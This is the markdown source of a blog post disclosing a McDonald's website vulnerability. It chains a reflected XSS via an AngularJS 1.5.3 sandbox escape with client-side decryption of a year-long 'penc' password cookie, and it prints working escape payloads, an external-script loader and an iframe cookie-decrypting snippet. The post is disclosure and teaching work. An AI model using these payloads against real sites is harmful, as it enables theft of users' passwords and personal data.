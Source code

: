 ```yaml
---
layout: post
title: Stealing passwords from McDonald's users
subtitle: Reflected XSS through AngularJS sandbox bypass causes password exposure of McDonald users.
description: By abusing an insecure cryptographic storage vulnerability and a reflected server cross-site-scripting vulnerability it is possible to steal and decrypt the password from a McDonald's user.
keywords: xss, cross-site, scripting, mcdonalds, password, vulnerability, stealing, angularjs
include_in_header: false
include_in_footer: false
show_in_post_list: true
robots: index, follow
---
```


By abusing an insecure [cryptographic storage vulnerability](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/){:target="_blank"}{:rel="noopener noreferrer"} and a [reflected server cross-site-scripting vulnerability](https://owasp.org/Top10/A03_2021-Injection/){:target="_blank"}{:rel="noopener noreferrer"} it is possible to steal and decrypt the password from a McDonald's user. Besides that, other personal details like the user's name, address & contact details can be stolen too.

### Proof of Concept

#### Reflected XSS through AngularJS sandbox escape
McDonalds.com contains a search page which reflects the value of the search parameter (`q`) in the source of the page. So when we search on for example `***********-test-reflected-test-***********`, the response will look like this:

<div class="row mb-2">
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/search-value-test-preview.png"
            title="Text on website"
            album="step-1"
            width="842"
            height="284"
        %}
    </div>
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/search-value-test-reflected.png"
            title="Text in HTML"
            album="step-1"
            width="803"
            height="197"
        %}
    </div>
</div>

McDonald's uses AngularJS so we can try to print the unique scope ID using the search value. We can do this by changing the `q` parameter value to `{% raw %}{{$id}}{% endraw %}`. As we can see `{% raw %}{{$id}}{% endraw %}` gets converted to `9` the unique ID (monotonically increasing) of the AngularJS scope.

<div class="row mb-2">
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/search-value-angular-id-preview.png"
            title="Unique ID on website"
            album="step-2"
            width="841"
            height="288"
        %}
    </div>
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/search-value-angular-id-reflected.png"
            title="Unique ID in HTML"
            album="step-2"
            width="596"
            height="167"
        %}
    </div>
</div>

Using `{% raw %}{{alert(1)}}{% endraw %}` as value wouldn't work because all AngularJS code is executed in a sandbox. However, the AngularJS sandbox isn't really safe. In fact, it shouldn't be trusted at all. It even [got removed](https://docs.angularjs.org/guide/security#sandbox-removal){:target="_blank"}{:rel="noopener noreferrer"} in version 1.6 because it gave a false sense of security. PortSwigger created a nice blog post about [escaping the AngularJS sandbox](http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html){:target="_blank"}{:rel="noopener noreferrer"}.

We first need to find the AngularJS version of McDonalds.com. We can do this by executing `angular.version` in the console.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/angular-version.png"
            title="Angular version"
            album="step-3"
            width="612"
            height="40"
        %}
    </div>
</div>

The version is 1.5.3, so the sandbox escape we need is `{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}{% endraw %}`. We can use this sandbox escape as search value, which results in an alert.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/alert-1-in-chrome.png"
            title="Alert using AngularJS sandbox escape"
            album="step-4"
            width="1185"
            height="218"
        %}
    </div>
</div>

We can even load external JavaScript files using the following sandbox escape, which results in the alert below.

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://tij.me/snippets/external-alert.js`)');}}{% endraw %}`

The JavaScript can be loaded from another domain since McDonald's doesn't exclude it using the `Content-Security-Policy` header.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/alert-external-in-chrome.png"
            title="External domain alert using AngularJS sandbox escape"
            album="step-5"
            width="1182"
            height="222"
        %}
    </div>
</div>

### Proof of Concept

#### Stealing the user's password
Another thing I noticed on McDonalds.com was their sign in page which contained a very special checkbox. Normally you can check "Remember me" when signing in, but the McDonald's sign in page gives us the option to remember the password.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/mcdonalds-login-form.png"
            title="Remember my password checkbox"
            album="step-6"
            width="977"
            height="495"
        %}
    </div>
</div>

I searched through all the JavaScript for the keyword `password` and I found some interesting code that decrypts the password.

<div class="row mb-2">
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/source-search-password.png"
            title="Source code search for `password`"
            album="step-7"
            width="997"
            height="432"
        %}
    </div>
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/cookie-pass-decrypt-source.png"
            title="Source for decrypting the user's password"
            album="step-7"
            width="360"
            height="250"
        %}
    </div>
</div>

If there's one thing you shouldn't do, it's decrypting passwords client side (or even storing passwords using two-way encryption). I tried to run the code myself, and it worked!

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/decrypt-get-cookie-penc.png"
            title="Decrypting my password using the console"
            album="step-8"
            width="217"
            height="56"
        %}
    </div>
</div>

The `penc` value is a cookie that is stored for a year. LOL!

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/penc-cookie.png"
            title="The `penc` cookie that is stored for a year"
            album="step-9"
            width="950"
            height="29"
        %}
    </div>
</div>

McDonald's uses CryptoJS to encrypt and decrypt sensitive data. They use the same `key` and `iv` for every user, which means I only have to steal the `penc` cookie to decrypt someone's password.

<div class="row mb-2">
    <div class="col-md-12">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/encrypt-decrypt-source.png"
            title="Encrypting and decrypting sensitive data using CryptoJS"
            album="step-10"
            width="851"
            height="198"
        %}
    </div>
</div>

I tried decrypting my password on the search page using a malicious search payload, but it didn't work. Since the AngularJS sandbox escape payload replaces the `charAt` method with the `join` method, the `getCookie` method failed. The `getCookie` method tries to trim whitespaces from cookie values by checking if `charAt(0)` is a whitespace. In the images below you can see `.charAt(0)` returns a string joined by `0` if executed on the search page.

<div class="row mb-2">
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/char-at-fail.png"
            title="The `charAt` method on the search page (fails)"
            album="step-11"
            width="423"
            height="71"
        %}
    </div>
    <div class="col-md-6">
        {% 
            include lightbox.html 
            image="/img/stealing-passwords-from-mcdonalds-users/char-at-success.png"
            title="The `charAt` method on the homepage (success)"
            album="step-11"
            width="297"
            height="71"
        %}
    </div>
</div>

I wrote some JavaScript that loads the homepage in an iframe and steals the cookie using that iframe. Since the payload is executed multiple times because of the sandbox escape, I keep track of the variable `xssIsExecuted`, so that the payload is only executed once.

{% highlight javascript %}
if (!window.xssIsExecuted) {
    window.xssIsExecuted = true;

    var iframe = $('<iframe src="https://www.mcdonalds.com/us/en-us.html"></iframe>');
    $('body').append(iframe);

    iframe.on('load', function() {
        var penc = iframe[0].contentWindow.getCookie('penc');
        alert(iframe[0].contentWindow.decrypt(penc));
    });
}
{% endhighlight %}

We can now use the following sandbox escape, which results in my password in an alert box!

`{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://tij.me/snippets/mcdonalds-password-stealer.js`)');}}{% endraw %}`


[![My password!](/img/stealing-passwords-from-mcdonalds-users/alert-my-password.png)](/img/stealing-passwords-from-mcdonalds-users/alert-my-password.png){:target="_blank"}{:rel="noopener noreferrer"}{:data-lightbox="step-12"}{:data-title="My password!"}

That was all pretty easy. I tried to contact McDonald's multiple times to report the issue, but unfortunately they didn't respond, which is why I decided to disclose the vulnerability.

